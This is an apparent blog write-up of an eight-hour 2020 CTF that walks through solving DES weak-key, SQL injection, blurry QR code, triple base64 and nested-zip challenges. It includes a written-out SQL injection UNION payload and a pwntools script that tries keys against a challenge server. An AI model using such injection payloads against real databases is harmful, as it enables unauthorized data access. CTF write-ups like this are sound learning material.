 ```yaml
---
title: "Grimm0x3 Convention CTF 2020 Writeup"
date: 2020-12-30 16:02:00 -0800
categories: [CTF, writeup]
tags: [writeup, web, commandinjection, misc, linux, php, crypto]
toc: true
---
```


> 8 Hour CTF, placed 68th/1100 Registered Team Accounts.

## Odysseus - 500 Points 

> I already encrypted the flag once but two times can never hurt right? I'll let you send me another key to encrypt it with! (in hex)

Based on the description, this challenge requires a DES Weak Key Attack. Weak keys are keys that cause the encryption to act identically to the decryption mode.

I used the list of keys [found on this github repo](https://github.com/W3rni0/NahamCon_CTF_2020/blob/master/assets/files/keys). Simple pwntools script to get the flag:

```
from pwn import *

#nc challenge.ctf.games 32350

with open('keys') as my_file:
    keys_array = my_file.readlines()


for key in keys_array:
        conn = remote('challenge.ctf.games', 32350)
        conn.recvline()
        conn.send(key)
        try:
                hex_string = str(conn.recvline(), 'utf-8')[1:-1]
                bytes_object = bytes.fromhex(hex_string)
                ascii_string = bytes_object.decode("ASCII")
                print(ascii_string)
                if flag in ascii_string:
                        exit(1)
        except:
                pass
        conn.close()
```

> flag{9b9169ac15fe51e8f337bc2786e4fb36}

## Syringe (338 Points)

> Doctors love their databases! Here is a library of words and semantics relating to medical words, like "syringe", or "x-ray", or "injection". Find whatever you need, just by searching for it! 

Simple SQL Injection challenge. We are given the query:

```
SELECT * FROM semantics WHERE name LIKE "%<userinput>%"
```

We can do a simple injection:

```
garbage%" or name = "doctor" or name LIKE "%garbage%" UNION SELECT * FROM flag WHERE flag LIKE "%
```

and get the flag.

> flag{f2a5006b1b07cc08362772807322ef62}

## Hyperopia (272 Points)

> erything close up is blurry... can you please help me read this? 

You are given a blurry QR code. Using Gimp's Sharp Unmask tool with Radius 3 Amount 20 Threshhold 0, I was able to make the qrcode scannable.

> flag{3efd4bd34663e618c70e051505c83f9f}

## Triple (50 Points)

> I was studying something called ASCII armor because I wanted to become better at encoding. I was having fun until I realized I couldn't decode my message... 

I simply noticed the string encoded in base64 and decoded the string three times.

```
kali@kali:~/Desktop/ctf/grimcon0x3/desshit$ echo V20xNGFGb3pjM3BQVkd0M1RsZFJlVTFVVVRSYWFsSnRXa2RKTTFscVFYbE9WMDE1VFRKUk1rOUVVWGROUkU1cVdXNHdQUT09 | base64 -d | base64 -d | base64 -d
flag{39905d2148f4fdb7b025c23d684003cb}
```

> flag{39905d2148f4fdb7b025c23d684003cb}


## ZipZip (50 Points)

> My friend sent me this zip file... He is a prankster and compressed the file a LOT of times... I don't know how to make this go quickly and I don't have the time... At least he told me the password is "pass". Can you please help? 

There is a file zipped 50 times, each time with the word pass. I can use a bash script to unzip everything.

```
#!/bin/bash
for i in $(seq -f "%02g" 50 -1 0)
        do
                unzip -P pass $i.zip
                #i=$((i-1))
        done
cat flag.txt
```

> flag{cf97382071cb149aac8d6ab8baeaa3ee}


## Conclusion

I wish the CTF was longer than 8 hours (and I wish that I had actual teammates as well). The challenges were good and creative, I just did not have the time to solve a lot of things.